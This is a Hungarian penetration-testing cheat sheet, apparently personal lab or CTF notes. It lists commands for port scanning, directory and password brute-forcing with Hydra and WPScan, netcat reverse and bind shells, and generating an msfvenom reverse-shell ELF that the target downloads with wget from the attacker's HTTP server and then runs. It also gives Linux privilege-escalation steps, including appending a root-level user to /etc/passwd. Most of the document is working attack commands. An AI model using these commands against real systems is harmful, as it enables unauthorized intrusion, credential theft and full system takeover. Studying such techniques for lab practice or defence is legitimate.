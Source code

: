 # Etikus hackelés jegyzet, enyém amugy de feljavított by ChatGPT

## Nmap - Portszkennelés

- A legtöbb gyakorlatban minden érdekes port benne van az Nmap alapértelmezett 1000 leggyakoribb port listájában, ezért nem szükséges megadni a `-p` kapcsolót.
- Alapértelmezett szkennelés:

```bash
ping <célszerver IP>
nmap -sS -sV <célszerver IP>
```

- `-sS`: TCP SYN szkennelés  
- `-sV`: Szolgáltatásverzió felismerés

---

## HTTP Protokoll és Webes Feltérképezés

- Weboldal elérése böngészőből: `http://<ip>`

### Almappák keresése

- **Dirb (CLI)**

```bash
dirb http://<ip> -r -U <felhasználónév>:<jelszó>
```

- **DirBuster (GUI)**

### Szólisták

- Felhasználónevekhez:  
  `/usr/share/wordlists/dirb/common.txt`

- Jelszavakhoz (Hydra):  
  `rockyou.txt`

---

## Hydra – Brute Force Jelszótörés

```bash
hydra -l <username> -P <jelszólista> <ip> http-get
```

---

## Reverse / Bind Shell Technika

### Reverse Shell

1. Válassz egy portot: `1024 < x < 65000` (pl. 4444)
2. Saját IP lekérése: `ip a`
3. Shellkód generálása: IP és port beégetése
4. Shellkód eljuttatása a célgépre
5. Listener indítása saját gépen:

```bash
nc -lvnp 4444
```

6. Shellkód futtatása a célgépen → kapcsolat létrejön

### Bind Shell

1. Port kiválasztása ✔  
2. Cél IP ismerete  
3. Shellkód generálás ✔  
4. Kód eljuttatása ✔  
5. Ugrás a következő pontra  
6. Kapcsolódás a cél gépen lévő listenerhez:

```bash
nc <cél IP> <port>
```

---

## Netcat Opciók

- `-l`: listen mód  
- `-v`: verbose  
- `-n`: numeric IP, nincs DNS feloldás  
- `-p`: port megadása

---

## Stabilabb Shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

---

## CMD Shell Támadás

- Olyan fájl vagy input mező sebezhető, ahol a célgép kódfuttatást enged.

### Példa: ELF fájl futtatása

1. Támadó oldalon generáljuk a shellt:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<támadó IP> LPORT=4444 -f elf > shell.elf
```

2. Listener indítása:

```bash
nc -lvp 4444
```

3. HTTP szerver indítása:

```bash
python3 -m http.server
```

4. Célgépen shell futtatása:

```bash
cd /tmp
rm -f shell.elf
wget http://<támadó IP>:8000/shell.elf
chmod +x shell.elf
./shell.elf
```

---

## WordPress

- WPScan:

```bash
wpscan --url http://<url> -e at,ap,u --usernames <user> --passwords <passwordlist>
```

- Exploit keresés:

```bash
msfconsole
search wordpress
use <exploit_id>
set options
run
```

---

## Exploit Adatbázis

- https://exploit-db.com

---

## Linux Privilege Escalation

### 1. SUID Bitek keresése

```bash
find / -perm -u=s 2>/dev/null
```

- GTFObins segítségével nézd meg, mire használható a bináris.  
  https://gtfobins.github.io

### 2. SSH Privát Kulcsok

- Ellenőrizd:  
  `/home/<user>/.ssh/`

### 3. Sudo jogosultságok

```bash
sudo -l
```

### 4. /etc/passwd és /etc/shadow jogai

- Fájl jogosultságok ellenőrzése:

```bash
getfacl <fájlnév>
```

- Hash törés:  
  `john` vagy `hashcat`

### 5. Python Library Hijacking

- Ha a célgépen a script saját mappából importál, akkor saját `random.py` fájl létrehozásával tetszőleges kódot futtathatunk.

---

## Felhasználóváltás

```bash
su <user>
sudo -u <user> <parancs>
```

---

## /etc/passwd manipulálása

Ha van írási jogunk:

```bash
openssl passwd -5 korte
# kimenet: $5$...
```

Majd:

```bash
echo 'hacker:$5$...:0:0:root:/root:/bin/bash' >> /etc/passwd
```

---

## LinPEAS

- Automatikus sebezhetőségvizsgáló eszköz:  
  https://github.com/carlospolop/PEASS-ng

---

## Hasznos Oldalak

- https://exploit-db.com  
- https://gtfobins.github.io
